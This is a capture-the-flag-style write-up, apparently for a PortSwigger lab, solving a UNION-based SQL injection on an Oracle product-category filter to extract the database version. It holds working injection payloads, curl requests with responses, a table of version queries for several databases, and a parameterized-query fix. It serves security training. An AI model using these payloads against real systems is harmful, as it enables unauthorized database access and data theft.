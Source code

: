 # SQL Injection UNION Attack - Database Version

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The goal is to use a UNION attack to retrieve the database version string.

**Difficulty**: Practitioner  
**Lab URL**: https://0a2f00f50416f19980af08a000d1003f.web-security-academy.net/

## Vulnerability Analysis

### Original Query
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### UNION Attack Basics
A UNION attack allows us to append results from an injected query to the original query results. Requirements:
1. Both queries must return the same number of columns
2. Data types in corresponding columns must be compatible

## Exploitation

### Step 1: Determine Database Type

First, we need to identify the database system. We can test with database-specific syntax:

**Oracle Test**:
```sql
' UNION SELECT NULL FROM DUAL--
```

**Request**:
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+NULL+FROM+DUAL--"
```

**Response**: Internal Server Error (wrong number of columns)

### Step 2: Determine Number of Columns

We increment NULL values until we get a valid response:

**Test with 2 columns**:
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM+DUAL--"
```

**Response** (truncated):
```html
<tr>
    <th>Conversation Controlling Lemon</th>
    <td>Are you one of those people who opens their mouth...</td>
</tr>
<tr>
    <th>Couple's Umbrella</th>
    <td>Do you love public displays of affection?...</td>
</tr>
```

✅ Success! The query returns 2 columns.

### Step 3: Retrieve Database Version

For Oracle databases, version information is stored in `v$version` table with the `banner` column.

**Payload**: `Gifts' UNION SELECT banner,NULL FROM v$version--`

**Request**:
```bash
curl "https://[lab-url]/filter?category=Gifts'+UNION+SELECT+banner,NULL+FROM+v\$version--"
```

**Response** (truncated):
```html
<tr>
    <th>Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production</th>
</tr>
<tr>
    <th>PL/SQL Release 11.2.0.2.0 - Production</th>
</tr>
<tr>
    <th>CORE	11.2.0.2.0	Production</th>
</tr>
<tr>
    <th>TNS for Linux: Version 11.2.0.2.0 - Production</th>
</tr>
<tr>
    <th>NLSRTL Version 11.2.0.2.0 - Production</th>
</tr>
```

### Step 4: Execute via Browser

1. Navigate to: `https://[lab-url]/filter?category=Gifts`
2. Modify URL to: `/filter?category=Gifts'+UNION+SELECT+banner,NULL+FROM+v$version--`
3. The database version strings appear in the product listings
4. Lab automatically marks as solved

## Key Concepts

### UNION Requirements
- **Same column count**: Use NULL to match columns
- **Compatible data types**: NULL works for any type
- **Column order matters**: Position in SELECT determines position in results

### Database-Specific Version Queries

| Database | Query |
|----------|-------|
| Oracle | `SELECT banner FROM v$version` |
| MySQL | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| Microsoft SQL Server | `SELECT @@version` |

### Oracle-Specific Notes
- Must use `FROM DUAL` for queries without a table
- `v$version` contains multiple rows with version info
- Use `$` in URL as `\$` to escape shell interpretation

## Alternative Approaches

**Get single version string** (Oracle 12c+):
```sql
' UNION SELECT version, NULL FROM v$instance--
```

**Test column data types**:
```sql
' UNION SELECT 'a', NULL FROM DUAL--
' UNION SELECT NULL, 'a' FROM DUAL--
```

## Prevention

- **Use Parameterized Queries**:
  ```java
  // Bad
  String query = "SELECT * FROM products WHERE category = '" + category + "'";
  
  // Good
  PreparedStatement stmt = conn.prepareStatement("SELECT * FROM products WHERE category = ?");
  stmt.setString(1, category);
  ```
- **Input Validation**: Whitelist allowed categories
- **Least Privilege**: Database user shouldn't access system tables
- **Error Handling**: Don't expose database errors to users

## Lab Completion
Once the database version is displayed on the page, the lab is automatically solved.
